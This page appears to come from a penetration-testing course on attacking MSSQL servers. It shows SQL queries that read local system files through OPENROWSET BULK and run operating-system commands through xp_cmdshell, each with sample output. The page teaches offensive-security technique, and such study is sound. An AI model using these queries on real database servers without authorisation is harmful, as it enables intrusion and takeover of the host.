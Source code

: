 ### Read Local Files

* By default, `MSSQL` allows file read on any file in the operating system to which the account has read access. We can use the following SQL query:

**Read Local Files in MSSQL**

```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

```cmd-session

BulkColumn

-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

(1 rows affected)
```

### Execute Commands

* `Command execution` is one of the most desired capabilities when attacking common services because it allows us to control the operating system. If we have the appropriate privileges, we can use the SQL database to execute system commands or create the necessary elements to do it.
* `MSSQL` has a [extended stored procedures](https://docs.microsoft.com/en-us/sql/relational-databases/extended-stored-procedures-programming/database-engine-extended-stored-procedures-programming?view=sql-server-ver15) called [xp\_cmdshell](https://docs.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver15) which allow us to execute system commands using SQL. Keep in mind the following about `xp_cmdshell`:
  * `xp_cmdshell` is a powerful feature and disabled by default. `xp_cmdshell` can be enabled and disabled by using the [Policy-Based Management](https://docs.microsoft.com/en-us/sql/relational-databases/security/surface-area-configuration) or by executing [sp\_configure](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option)
  * The Windows process spawned by `xp_cmdshell` has the same security rights as the SQL Server service account
  * `xp_cmdshell` operates synchronously. Control is not returned to the caller until the command-shell command is completed
* To execute commands using SQL syntax on MSSQL, use:

**XP\_CMDSHELL**

```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

```cmd-session
output
-----------------------------
no service\mssql$sqlexpress
NULL
(2 rows affected)
```
